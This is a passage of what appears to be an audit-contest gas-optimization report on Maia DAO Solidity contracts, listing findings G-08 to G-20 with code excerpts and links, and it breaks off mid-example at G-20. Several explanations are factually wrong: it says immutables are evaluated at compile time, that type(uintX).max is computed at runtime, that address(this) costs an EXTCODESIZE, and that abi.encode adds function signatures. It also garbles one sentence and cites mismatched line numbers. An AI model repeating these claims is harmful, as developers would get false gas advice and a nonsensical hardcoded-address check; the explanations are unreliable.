```solidity
File:  src/rewards/interfaces/IFlywheelCore.sol
121    event AccrueRewards(ERC20 indexed strategy, address indexed user, uint256 rewardsDelta, uint256 rewardsIndex);

128    event ClaimRewards(address indexed user, uint256 amount);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/interfaces/IFlywheelCore.sol#L121

```solidity
File:  src/rewards/interfaces/IFlywheelGaugeRewards.sol
93    event CycleStart(uint32 indexed cycleStart, uint256 rewardAmount);

96    event QueueRewards(address indexed gauge, uint32 indexed cycleStart, uint256 rewardAmount);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/interfaces/IFlywheelGaugeRewards.sol#L93

```solidity
File:  src/talos/TalosStrategyVanilla.sol
165    event CollectFees(uint256 feesFromPool0, uint256 feesFromPool1, uint256 usersFees0, uint256 usersFees1);

170    event CompoundFees(uint256 amount0, uint256 amount1);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/TalosStrategyVanilla.sol#L165

```solidity
File:  src/talos/interfaces/ITalosBaseStrategy.sol
187    event RewardPaid(address indexed sender, uint256 fees0, uint256 fees1);

235    event Rerange(uint256 indexed tokenId, int24 tickLower, int24 tickUpper, uint256 amount0, uint256 amount1);

240    event Snapshot(uint256 totalAmount0, uint256 totalAmount1);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/interfaces/ITalosBaseStrategy.sol#L187

```solidity
File:  src/talos/libraries/PoolActions.sol
23     event Snapshot(uint256 totalAmount0, uint256 totalAmount1);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/libraries/PoolActions.sol#L23

```solidity
File:  src/talos/libraries/PoolVariables.sol
28    event Snapshot(uint256 totalAmount0, uint256 totalAmount1);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/libraries/PoolVariables.sol#L28

```solidity
File:  src/ulysses-amm/interfaces/IUlyssesPool.sol
237    event Swap(address indexed caller, uint256 indexed poolId, uint256 assets);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/interfaces/IUlyssesPool.sol#L237

```solidity
File:  src/ulysses-omnichain/interfaces/IBranchBridgeAgent.sol
281    event LogCallin(bytes1 selector, bytes data, uint256 fromChainId);

282    event LogCallout(bytes1 selector, bytes data, uint256, uint256 toChainId);

293    event LogCalloutFail(bytes1 selector, bytes data, uint256 toChainId);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IBranchBridgeAgent.sol#L281

```solidity
File:  src/ulysses-omnichain/interfaces/IBranchPort.sol
198    event DebtCreated(address indexed _strategy, address indexed _token, uint256 _amount);

199    event DebtRepaid(address indexed _strategy, address indexed _token, uint256 _amount);

201    event StrategyTokenAdded(address indexed _token, uint256 _minimumReservesRatio);

202    event StrategyTokenToggled(address indexed _token);


204    event PortStrategyAdded(address indexed _portStrategy, address indexed _token, uint256 _dailyManagementLimit);

205    event PortStrategyToggled(address indexed _portStrategy, address indexed _token);

206    event PortStrategyUpdated(address indexed _portStrategy, address indexed _token, uint256 _dailyManagementLimit);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IBranchPort.sol#L198

```solidity
File:  src/ulysses-omnichain/interfaces/IRootBridgeAgent.sol
378    event LogCallin(bytes1 selector, bytes data, uint24 fromChainId);

379    event LogCallout(bytes1 selector, bytes data, uint256, uint24 toChainId);

380    event LogCalloutFail(bytes1 selector, bytes data, uint24 toChainId);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IRootBridgeAgent.sol#L378

```solidity
File:  src/ulysses-omnichain/interfaces/IRootPort.sol
315    event BridgeAgentAdded(address indexed bridgeAgent, address manager);

322    event VirtualAccountCreated(address indexed user, address account);

324    event LocalTokenAdded(
        address indexed underlyingAddress, address localAddress, address globalAddress, uint24 chainId
    );
327    event GlobalTokenAdded(address indexed localAddress, address indexed globalAddress, uint24 chainId);    
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IRootPort.sol#L315

```solidity
File:  src/uni-v3-staker/interfaces/IUniswapV3Staker.sol
264    event IncentiveCreated(IUniswapV3Pool indexed pool, uint256 startTime, uint256 reward);

269    event IncentiveEnded(bytes32 indexed incentiveId, uint256 refund);

281    event TokenStaked(uint256 indexed tokenId, bytes32 indexed incentiveId, uint128 liquidity);

291    event RewardClaimed(address indexed to, uint256 reward);

296    event BribeDepotUpdated(IUniswapV3Pool indexed uniswapV3Pool, address bribeDepot);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/uni-v3-staker/interfaces/IUniswapV3Staker.sol#L264

</details>

## [G-08] `>=` costs less gas than `>`

The compiler uses opcodes for solidity code that uses `>`, but only requires for `>=`, which saves 3 gas.

```solidity
File:  src/erc-4626/ERC4626MultiToken.sol
252    if (share > shares) shares = share;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626MultiToken.sol#L52

```solidity
File:  src/gauges/factories/BaseV2GaugeFactory.sol
91     if (end > length) end = length;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BaseV2GaugeFactory.sol#L252

```solidity
File:     src/talos/boost-aggregator/BoostAggregator.sol
93       if (_daoShare > max_dao_share) revert DaoShareTooHigh();

99       if (_tail_emission > max_tail_emission) revert TailEmissionTooHigh();
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/boost-aggregator/BoostAggregator.sol#L93

```solidity
File:    src/rewards/rewards/FlywheelGaugeRewards.sol
120     if (currentCycle > nextCycle)
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelGaugeRewards.sol#L120

```solidity
File:   /src/talos/base/TalosBaseStrategy.sol
158    if (totalSupply > optimizer.maxTotalSupply()) revert ExceedingMaxTotalSupply();

219    if (totalSupply > optimizer.maxTotalSupply()) revert ExceedingMaxTotalSupply();

398    if (amount0 > _protocolFees0)

401    if (amount1 > _protocolFees1)
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L158

```solidity
File:   src/talos/factories/TalosBaseStrategyFactory.sol
138     if (balance > assets)

171     if (index > MAX_DESTINATIONS) revert TooManyDestinations();

185     if (newTotalWeights > MAX_TOTAL_WEIGHT) revert InvalidWeight();

243     if (totalWeights > MAX_TOTAL_WEIGHT || oldTotalWeights == newTotalWeights)

252     if (oldTotalWeights > newTotalWeights)

310     if (_fees.lambda1 > MAX_LAMBDA1) revert InvalidFee();

315     if (_fees.sigma1 > DIVISIONER) revert InvalidFee();

327     if (_protocolFee > MAX_PROTOCOL_FEE) revert InvalidFee();
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/factories/TalosBaseStrategyFactory.sol#L138

```solidity
File: src/talos/TalosOptimizer.sol
115   if (assetBalance > newAssetBalance)
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/TalosOptimizer.sol#L47

```solidity
File: /src/ulysses-omnichain/BranchBridgeAgent.sol
1035    if (minExecCost > gasRemaining) 

1050    if (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD) 

1069    if (minExecCost > getDeposit[_depositNonce].depositedGas)
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1035

## [G-09] Expressions for constant values, such as a call to `keccak256()`, should use immutable rather than constant

The reason for this, is that constant variables are evaluated at runtime and their value is included in the bytecode of the contract. This means, any expensive operations performed as part of the constant expression, such as a call to `keccak256()`, will be executed every time the contract is deployed, even if the result is always the same. This can result in higher gas costs.

In contrast, immutable variables are evaluated at compilation time and their values are included in the bytecode of the contract as constants. This means, any expensive operations performed as part of the immutable expression are only executed once when the contract is compiled and the result is reused every time the contract is deployed. This can result in lower gas costs compared to using constant variables.

Let's consider an example to illustrate this. Suppose we want to store the hash of a string as a constant value in our contract. We could do this using a constant variable, like so:

```
bytes32 constant MY_HASH = keccak256("my string");
```

Alternatively, we could use an immutable variable, like so:

```
bytes32 immutable MY_HASH = keccak256("my string");
```

```solidity
File:   src/erc-20/ERC20MultiVotes.sol
360   bytes32 public constant DELEGATION_TYPEHASH =
        keccak256("Delegation(address delegatee,uint256 nonce,uint256 expiry)");
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20MultiVotes.sol#L360

```solidity
File:   src/governance/GovernorBravoDelegateMaia.sol
42    bytes32 public constant DOMAIN_TYPEHASH =
        keccak256("EIP712Domain(string name,uint256 chainId,address verifyingContract)")

46    bytes32 public constant BALLOT_TYPEHASH = keccak256("Ballot(uint256 proposalId,uint8 support)");
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/governance/GovernorBravoDelegateMaia.sol#L42

## [G-10] Using `private` rather than `public` for constants, saves gas

When you declare a constant variable as `public`, Solidity generates a getter function that allows anyone to read the value of the constant. This getter function can consume gas, especially if the constant is read frequently or the contract is called by multiple users.

By using `private` instead of `public` for constants, you can prevent the generation of the `getter` function and reduce the overall gas cost of your contract.

```solidity  
File:  src/governance/GovernorBravoDelegateMaia.sol 
9    string public constant name = "vMaia Governor Bravo";

12   uint256 public constant MIN_PROPOSAL_THRESHOLD = 0.005 ether; // 0.5% of GovToken

15   uint256 public constant MAX_PROPOSAL_THRESHOLD = 0.05 ether; // 5% of GovToken

18   uint256 public constant MIN_VOTING_PERIOD = 80640; // About 2 weeks

21   uint256 public constant MAX_VOTING_PERIOD = 161280; // About 4 weeks

24   uint256 public constant MIN_VOTING_DELAY = 40320; // About 1 weeks

27   uint256 public constant MAX_VOTING_DELAY = 80640; // About 2 weeks

30   uint256 public constant quorumVotes = 0.35 ether; // 35% of GovToken

33   uint256 public constant proposalMaxOperations = 10; // 10 actions

36   uint256 public constant DIVISIONER = 1 ether;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/governance/GovernorBravoDelegateMaia.sol#L9

## [G-11] Do not calculate constants

Due to how constant variables are implemented (replacements at compile-time), an expression assigned to a constant variable is recomputed each time the variable is used, which wastes some gas.

```solidity
File:   src/hermes/minters/BaseV2Minter.sol
24      uint256 internal constant week = 86400 * 7;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/minters/BaseV2Minter.sol#L24

```solidity
File:   src/talos/TalosStrategyVanilla.sol  
47      uint24 private constant protocolFee = 2 * 1e5; //20%
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/TalosStrategyVanilla.sol#L47

## [G-12] State variables should be cached in stack variables rather than re-reading them from storage

The instances below point to the `second+` access of a state variable within a function. Caching of a state variable replaces each Gwarmaccess (100 gas) with a much cheaper stack read. Other less obvious fixes/optimizations include: having local memory caches of state variable structs or having local caches of state variable contracts/addresses.

```solidity
File:  src/governance/GovernorBravoDelegateMaia.sol
234    if (msg.sender != proposal.proposer && msg.sender != admin) {

236    if (isWhitelisted(proposal.proposer)) {

238    (govToken.getPriorVotes(proposal.proposer, sub256(block.number, 1)) < getProposalThresholdAmount())

244     (govToken.getPriorVotes(proposal.proposer, sub256(block.number, 1)) < getProposalThresholdAmount()),
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/governance/GovernorBravoDelegateMaia.sol#L234-L244

```solidity
File:   src/ulysses-omnichain/ArbitrumBranchPort.sol
62    if (!IRootPort(rootPortAddress).isGlobalToken(_globalAddress, localChainId)) {

66    address underlyingAddress = IRootPort(rootPortAddress).getUnderlyingTokenFromLocal(_globalAddress, localChainId);

70    IRootPort(rootPortAddress).burnFromLocalBranch(_depositor, _globalAddress, _deposit);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/ArbitrumBranchPort.sol#L62-L70

```solidity
File:    src/ulysses-omnichain/CoreBranchRouter.sol
        if (!IPort(localPortAddress).isBridgeAgentFactory(_newBridgeAgentFactoryAddress)) {
            IPort(localPortAddress).addBridgeAgentFactory(_newBridgeAgentFactoryAddress);
        } else {
            IPort(localPortAddress).toggleBridgeAgentFactory(_newBridgeAgentFactoryAddress);
        }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/CoreBranchRouter.sol#L164-L168

## [G‑13] Add unchecked `{}` for subtractions where the operands cannot underflow because of a previous `require()` or `if-statement`

`require(a <= b); x = b - a` => `require(a <= b); unchecked { x = b - a }`.

```solidity
File:   src/governance/GovernorBravoDelegateMaia.sol
532    require(b <= a, "subtraction underflow");
        return a - b;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/governance/GovernorBravoDelegateMaia.sol#L532-L533

```solidity
File:   src/hermes/minters/BaseV2Minter.sol
140   HERMES(underlying).mint(address(this), _required - _balanceOf);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/minters/BaseV2Minter.sol#L140

```solidity
File:   src/talos/base/TalosBaseStrategy.sol
166   if (amount0 < amount0Desired) {
            uint256 refund0 = amount0Desired - amount0;
            address(_token0).safeTransfer(msg.sender, refund0);
        }

171    if (amount1 < amount1Desired) {
            uint256 refund1 = amount1Desired - amount1;
            address(_token1).safeTransfer(msg.sender, refund1);
        }
226    if (amount0 < amount0Desired) {
            uint256 refund0 = amount0Desired - amount0;
            address(_token0).safeTransfer(msg.sender, refund0);
        }

231   if (amount1 < amount1Desired) {
            uint256 refund1 = amount1Desired - amount1;
            address(_token1).safeTransfer(msg.sender, refund1);
        }  
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L166-L174

## [G-14] `abi.encode()` is less efficient than `abi.encodePacked()`

In terms of efficiency, `abi.encodePacked()` is generally considered to be more gas-efficient than `abi.encode()` because it skips the step of adding function signatures and other metadata to the encoded data. However, this comes at the cost of reduced safety, as `abi.encodePacked()` does not perform any type of checking or padding of data.

```solidity
File:   src/governance/GovernorBravoDelegateMaia.sol
346   keccak256(abi.encode(DOMAIN_TYPEHASH, keccak256(bytes(name)), getChainIdInternal(), address(this)));
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/governance/GovernorBravoDelegateMaia.sol#L346

```solidity
File:  src/talos/libraries/PoolActions.sol
51   abi.encode(SwapCallbackData({zeroForOne: zeroForOne}))
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/libraries/PoolActions.sol#L51

```solidity
File:   src/ulysses-omnichain/RootBridgeAgent.sol
689   abi.encode(SwapCallbackData({tokenIn: gasTokenGlobalAddress}))

733   abi.encode(SwapCallbackData({tokenIn: address(wrappedNativeToken)}))
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L689

## [G-15] Use constants instead of `type(uintx).max`

It's generally more gas-efficient to use constants instead of `type(uintX).max` when you need to set the maximum value of an unsigned integer type.

The reason for this, is that the `type(uintX).max` expression involves a computation at runtime, whereas a constant is evaluated at compile-time. This means, that using `type(uintX).max` can result in additional gas costs for each transaction that involves the expression.

By using a constant instead of `type(uintX).max`, you can avoid these additional gas costs and make your code more efficient.

Here's an example of how you can use a constant instead of `type(uintX).max`:

```
contract MyContract {
    uint120 constant MAX_VALUE = 2**120 - 1;
    
    function doSomething(uint120 value) public {
        require(value <= MAX_VALUE, "Value exceeds maximum");
        
        // Do something
    }
}
```
In the above example, we have a contract with a constant `MAX_VALUE` that represents the maximum value of a uint120. When the `doSomething` function is called with a value parameter, it checks whether the value is less than or equal to `MAX_VALUE` using the `<=` operator.

By using a constant instead of `type(uint120).max`, we can make our code more efficient and reduce the gas cost of our contract.

It's important to note that using constants can make your code more readable and maintainable, since the value is defined in one place and can be easily updated, if necessary. However, constants should be used with caution and only when their value is known at compile-time.

Here's an example to illustrate this:

```solidity
contract ExampleContract {
    uint256 constant MAX_UINT256 = 2**256 - 1;

    function doSomething() external {
        uint256 maxValue = type(uint256).max;

        // Perform some operations

        if (value > maxValue) {
            // Do something
        }
    }
}
```

In this example, we have defined a constant `MAX_UINT256` with the maximum value of a uint256 variable, which is equivalent to `2^256 - 1`. Instead of using `type(uint256).max` directly, we use the constant `MAX_UINT256` throughout the contract.

<details>

```solidity
File:   src/erc-4626/ERC4626.sol
67      if (allowed != type(uint256).max) allowance[owner][msg.sender] = allowed - shares;

84      if (allowed != type(uint256).max) allowance[owner][msg.sender] = allowed - shares;

149     return type(uint256).max;

154     return type(uint256).max;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626.sol#L67

```solidity
File:  src/erc-4626/ERC4626DepositOnly.sol
99   return type(uint256).max;

104  return type(uint256).max;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626DepositOnly.sol#L99

```solidity
File:    src/erc-4626/ERC4626MultiToken.sol
143      if (allowed != type(uint256).max) allowance[owner][msg.sender] = allowed - shares;

165      if (allowed != type(uint256).max) allowance[owner][msg.sender] = allowed - shares;

200      shares = type(uint256).max;

270      return type(uint256).max;

275      return type(uint256).max;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626MultiToken.sol#L143

```solidity
File:    src/erc-4626/UlyssesERC4626.sol
68       if (allowed != type(uint256).max) allowance[owner][msg.sender] = allowed - shares;

113      return type(uint256).max;

117      return type(uint256).max;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/UlyssesERC4626.sol#L68

```solidity
File:   src/gauges/UniswapV3Gauge.sol
45      rewardToken.safeApprove(_uniswapV3Staker, type(uint256).max);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/UniswapV3Gauge.sol#L45 

```solidity
File:   src/maia/tokens/ERC4626PartnerManager.sol
200     address(gaugeWeight).safeApprove(newPartnerVault, type(uint256).max);

201        address(gaugeBoost).safeApprove(newPartnerVault, type(uint256).max);

202       address(governance).safeApprove(newPartnerVault, type(uint256).max);

203     address(partnerGovernance).safeApprove(newPartnerVault, type(uint256).max);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/tokens/ERC4626PartnerManager.sol#L200

```solidity
File:  src/rewards/base/BaseFlywheelRewards.sol
36     _rewardToken.safeApprove(address(_flywheel), type(uint256).max);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/base/BaseFlywheelRewards.sol#L36

```solidity
File:   src/rewards/rewards/FlywheelGaugeRewards.sol
133     require(newRewards <= type(uint112).max); 

187     require(nextRewards <= type(uint112).max); 
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/rewards/FlywheelGaugeRewards.sol#L133

```solidity
File:      src/talos/base/TalosBaseStrategy.sol
130        address(_token0).safeApprove(address(_nonfungiblePositionManager), type(uint256).max);

131        address(_token1).safeApprove(address(_nonfungiblePositionManager), type(uint256).max);

249        if (allowed != type(uint256).max) allowance[_owner][msg.sender] = allowed - shares

285        amount0Max: type(uint128).max,

286        amount1Max: type(uint128).max

367        amount0Max: type(uint128).max,

368        amount1Max: type(uint128).max
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L130

```solidity
File:    src/talos/TalosStrategyStaked.sol
151      amount0Max: type(uint128).max,

152      amount1Max: type(uint128).max
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/TalosStrategyStaked.sol#L151

```solidity
File:  src/talos/TalosStrategyVanilla.sol
111          amount0Max: type(uint128).max,

112          amount1Max: type(uint128).max
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/talos/TalosStrategyVanilla.sol#L111

```solidity
File:   src/ulysses-amm/UlyssesRouter.sol
40      address(ulysses.asset()).safeApprove(address(ulysses), type(uint256).max);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesRouter.sol#L40 

```solidity
File:  src/uni-v3-staker/UniswapV3Staker.sol
70     if (liquidity == type(uint96).max)

385    amount0Max: type(uint128).max,

386    amount1Max: type(uint128).max

456    if (liquidity >= type(uint96).max) stake.liquidityIfOverflow = 0;

506    if (liquidity >= type(uint96).max)

509    liquidityNoOverflow: type(uint96).max,
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/uni-v3-staker/UniswapV3Staker.sol#L70

</details>

## [G-16] Use hardcode address instead of `address(this)`

It can be more gas-efficient to use a hardcoded address instead of the `address(this)` expression, especially if you need to use the same address multiple times in your contract.

The reason for this, is that using `address(this)` requires an additional `EXTCODESIZE` operation to retrieve the contract's address from its bytecode, which can increase the gas cost of your contract. By pre-calculating and using a hardcoded address, you can avoid this additional operation and reduce the overall gas cost of your contract.

Here's an example of how you can use a hardcoded address instead of `address(this)`:

```
contract MyContract {
    address public myAddress = 0x1234567890123456789012345678901234567890;
    
    function doSomething() public {
        // Use myAddress instead of address(this)
        require(msg.sender == myAddress, "Caller is not authorized");
        
        // Do something
    }
}
```

In the above example, we have a contract (MyContract) with a public address variable `myAddress`. Instead of using `address(this)` to retrieve the contract's address, we have pre-calculated and hardcoded the address in the variable. This can help to reduce the gas cost of our contract and make our code more efficient.

[References](https://book.getfoundry.sh/reference/forge-std/compute-create-address)

<details>

```solidity
File:   src/maia/tokens/ERC4626PartnerManager.sol
162      return (address(bHermesToken).balanceOf(address(this))) / bHermesRate - totalSupply;

168      return (address(bHermesToken).balanceOf(address(this))) / bHermesRate - totalSupply;

219      if (newRate > (address(bHermesToken).balanceOf(address(this)) / totalSupply)) 

226      address(this), totalSupply * newRate - address(partnerGovernance).balanceOf(address(this))

244      ERC20MultiVotes(partnerGovernance).mint(address(this), amount * bHermesRate);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/tokens/ERC4626PartnerManager.sol#L162

```solidity
File:  src/maia/PartnerUtilityManager.sol
75     if (partnerVault != address(0) && address(gaugeWeight).balanceOf(address(this)) > 0)

85     if (partnerVault != address(0) && address(gaugeBoost).balanceOf(address(this)) > 0) 

95     if (partnerVault != address(0) && address(governance).balanceOf(address(this)) > 0) 

104    address(partnerGovernance).safeTransferFrom(msg.sender, address(this), amount);

128    uint256 weightAvailable = address(gaugeWeight).balanceOf(address(this));

139    uint256 boostAvailable = address(gaugeBoost).balanceOf(address(this));

148    uint256 governanceAvailable = address(governance).balanceOf(address(this));
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/PartnerUtilityManager.sol#L75

```solidity
File:   src/talos/base/TalosBaseStrategy.sol
125     address(_token0).safeTransferFrom(msg.sender, address(this), amount0Desired);

126     address(_token1).safeTransferFrom(msg.sender, address(this), amount1Desired);

146     recipient: address(this),

196     address(_token0).safeTransferFrom(msg.sender, address(this), amount0Desired);

197     address(_token1).safeTransferFrom(msg.sender, address(this), amount1Desired);

366     recipient: address(this),

406     uint256 balance0 = _token0.balanceOf(address(this));

407     uint256 balance1 = _token1.balanceOf(address(this));
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L125

```solidity
File:   src/talos/TalosStrategyStaked.sol
90      flywheel.accrue(ERC20(address(this)), msg.sender, _to);

95      flywheel.accrue(ERC20(address(this)), _from, _to);

150     recipient: address(this),

177     try nonfungiblePositionManager.safeTransferFrom(address(this), address(boostAggregator), _tokenId)
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/TalosStrategyStaked.sol#L90

```solidity
File:   src/ulysses-amm/UlyssesPool.sol
103     return asset.balanceOf(address(this)) - getProtocolFees();

108     return balanceOf[owner].min(asset.balanceOf(address(this)));

127     uint256 balance = asset.balanceOf(address(this));

218     asset.safeTransferFrom(msg.sender, address(this), newRebalancingFee - oldRebalancingFee);

303     asset.safeTransferFrom(msg.sender, address(this), newRebalancingFee - oldRebalancingFee);

1109    asset.safeTransferFrom(msg.sender, address(this), assets);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesPool.sol#L103

```solidity
File:     src/ulysses-omnichain/BranchBridgeAgent.sol
1020      uint256 gasRemaining = wrappedNativeToken.balanceOf(address(this));

1078     IPort(localPortAddress).withdraw(address(this), address(wrappedNativeToken), minExecCost);

1093      IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config()).deposit{value: _executionGasSpent}(address(this));

1103      IPort(localPortAddress).withdraw(address(this), address(wrappedNativeToken), gasAmount);

1325     uint256 executionBudget = anycallConfig.executionBudget(address(this));
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1020

```solidity
File:    src/ulysses-omnichain/BranchPort.sol
127     uint256 currBalance = ERC20(_token).balanceOf(address(this));

138     uint256 currBalance = ERC20(_token).balanceOf(address(this));

180     IPortStrategy(_strategy).withdraw(address(this), _token, amountToWithdraw);

249     _localAddress.safeTransferFrom(_depositor, address(this), _amount - _deposit);

254     _depositor, address(this), _denormalizeDecimals(_deposit, ERC20(_underlyingAddress).decimals())

271      address(this),

276      _localAddresses[i].safeTransferFrom(_depositor, address(this), _amounts[i] - _deposits[i]);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchPort.sol#L127

</details>

## [G-17] A modifier used only once and not being inherited should be inlined to save gas

When a modifier is used only once and is not inherited by any other contracts, inlining it can reduce gas costs. Inlining means that the modifier's code is directly inserted into the function where it is applied, rather than creating a separate function call for the modifier.

By inlining the modifier, you avoid the overhead of the additional function call, which results in lower gas consumption. This optimization is especially useful when the modifier's code is short or simple.

<details> 

```solidity
File: /src/talos/boost-aggregator/BoostAggregator.sol
190      modifier onlyWhitelisted(address from) {
        if (!whitelistedAddresses[from]) revert Unauthorized();
        _;
    }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/boost-aggregator/BoostAggregator.sol#L190

```solidity
File: /src/ulysses-omnichain/BranchPort.sol
423      modifier lock() {
        require(_unlocked == 1);
        _unlocked = 2;
        _;
        _unlocked = 1;
    }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchPort.sol#L423

```solidity
File: /src/gauges/factories/BribesFactory.sol 
105         modifier onlyGaugeFactory() {
        if (!gaugeManager.activeGaugeFactories(BaseV2GaugeFactory(msg.sender))) {
            revert Unauthorized();
        }
        _;
    }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BribesFactory.sol#L105

```solidity
File: /src/hermes/tokens/bHermesBoost.sol
32      modifier onlybHermes() {
        if (msg.sender != bHermes) revert NotbHermes();
        _;
    }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/tokens/bHermesBoost.sol#L32

```solidity
File: /src/hermes/tokens/bHermesGauges.sol
39       modifier onlybHermes() {
        if (msg.sender != bHermes) revert NotbHermes();
        _;
    }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/tokens/bHermesGauges.sol#L39

```solidity
File: src/ulysses-omnichain/factories/ERC20hTokenBranchFactory.sol
75     modifier requiresCoreRouter() {
        if (msg.sender != localCoreRouterAddress) revert UnrecognizedCoreRouter();
        _;
    }

```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/factories/ERC20hTokenBranchFactory.sol#L75

```solidity
File:   src/ulysses-omnichain/factories/ERC20hTokenRootFactory.sol
74      modifier requiresCoreRouter() {
        if (msg.sender != coreRootRouterAddress && msg.sender != rootPortAddress) {
            revert UnrecognizedCoreRouter();
        }
        _;
    }
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/factories/ERC20hTokenRootFactory.sol#L74

</details>

## [G-18]  Using a delete statement can save gas

```solidity
File:  src/erc-20/ERC20Boost.sol
249    getUserBoost[msg.sender] = 0;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Boost.sol#L249 

```solidity
File:     src/erc-20/ERC20MultiVotes.sol
340      _delegatesVotesCount[user][delegatee] = 0;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20MultiVotes.sol#L340

```solidity
File:    src/rewards/base/FlywheelCore.sol
98       rewardsAccrued[user] = 0;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/base/FlywheelCore.sol#L98

```solidity
File:   src/talos/libraries/PoolVariables.sol
211     secondsAgo[1] = 0;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/libraries/PoolVariables.sol#L211

```solidity
File:    src/ulysses-amm/UlyssesToken.sol
78       assetId[asset] = 0;
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesToken.sol#L78

## [G-19] Amounts should be checked for `0` before calling a transfer

It is generally a good practice to check for zero values before making any transfers in smart contract functions. This can help to avoid unnecessary external calls and save gas costs.

Checking for zero values is especially important when transferring tokens or ether, as sending these assets to an address with a zero value will result in the loss of those assets.

In Solidity, you can check whether a value is zero by using the `==` operator. Here's an example of how you can check for a zero value before making a transfer:

```
function transfer(address payable recipient, uint256 amount) public {
    require(amount > 0, "Amount must be greater than zero");
    recipient.transfer(amount);
}
``
In the above example, we check to make sure that the amount parameter is greater than zero before making the transfer to the recipient address. If the amount is zero or negative, the function will revert and the transfer will not be made.

```solidity
File:  src/erc-4626/ERC4626.sol
76    address(asset).safeTransfer(receiver, assets);

96    address(asset).safeTransfer(receiver, assets);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626.sol#L76

```solidity
File: src/erc-4626/ERC4626MultiToken.sol
80    assets[i].safeTransfer(receiver, assetsAmounts[i]);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626MultiToken.sol#L80

```solidity
File: src/talos/boost-aggregator/BoostAggregator.sol
176   address(hermesGaugeBoost).safeTransfer(to, amount);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/boost-aggregator/BoostAggregator.sol#L176

```solidity
File: src/ulysses-omnichain/BranchPort.sol
166   _token.safeTransfer(msg.sender, _amount);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchPort.sol#L166

## [G-20] Use assembly to hash instead of solidity

```
function solidityHash(uint256 a, uint256 b) public view {
    //unoptimized
